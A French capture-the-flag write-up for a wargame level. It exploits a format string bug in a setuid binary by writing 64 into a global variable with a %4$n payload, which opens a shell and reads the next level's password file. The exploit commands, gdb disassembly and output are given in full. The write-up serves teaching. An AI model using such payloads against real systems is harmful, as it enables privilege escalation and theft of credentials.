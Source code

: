 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```
$ ./level3

```

Il ne répond qu'avec un input :

```
$ ./level3
da
da
```

J'utilise `Dogbolt` afin de décompiler le binaire du level 3.

### Ghidra

```c
void v(void) {
  char buffer[520];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void) {
  v();
  return;
}
```

### Hexray

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.

Je note que `fgets()` n'est pas la source de vulnérabilité car c'est une version protégée de `gets()` mais que `printf()`, qui lit notre input et l'imprime, présente une vulnérabilité possible connue sous le nom de [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack).

Il s'agit ici d'utiliser le flag de conversion `%n` :

```
Parameters 	Output 	                                        Passed as
...         ...                                             ...
%n 	        Writes the number of characters into a pointer 	Reference
```

Il me faut donc, dans l'espace qui m'est fourni par le buffer et la limite de `fgets()`, écrire à l'adresse de la variable `m`.

Pour cela, je dois composer un payload infecté composé de :

- l'adresse de la variable `m` dans la fonction `v()`
- 64 charactères à écrire que %n va utiliser pour écrire le pointeur
- puis l'appel à `%n`

Etant donné que nous ne passons aucun argument à `printf`, ce dernier va lire la stack comme argument. Pour trouver "où" se trouve le pointeur de la variable `m` dans la stack pour `printf` lorsque je lui passe l'adresse de `m`, j'utilise l'astuce suivante :

```
$ python -c 'print("a %x %x %x %x %x %x")' | ./level3
a 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                               ^

$ python -c 'print("b %x %x %x %x %x %x")' | ./level3
b 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                               ^
```

J'identifie que le 4eime argument dans l'appel de `printf` représente le 'premier' dans la string passé à `printf`.

Cela m'indique que l'appel à `%n` nécessitera un 'shift' de 4 (écrit: `%4$n`) pour signifier que les 64 bytes écrit avant cet appel doivent être stocké dans le "4eime" argument, qui sera en fait l'adresse de la variable 'm', j'illustre ce propos avec le payload suivant :

```python
python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n"
```

Note: vu que je fais un shift de 4 bytes, je n'ai donc que 60 à écrire avant pour atteindre le total de 64 bytes, et ce sera la valeur écrite donc dans le "4eime" (1er dans printf) argument, qui pointe donc sur : `0x0804988c`

Cette adresse est trouvée en utilisant `gdb` :

```
(gdb) disas v
Dump of assembler code for function v:
...
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> <- on observe le printf
   0x080484da <+54>:    mov    0x804988c,%eax <- met l'adresse de m dans %eax
   0x080484df <+59>:    cmp    $0x40,%eax <- compare %eax a 0x40 -> 64
...
```

J'exécute mon payload :

```
$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*60 + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```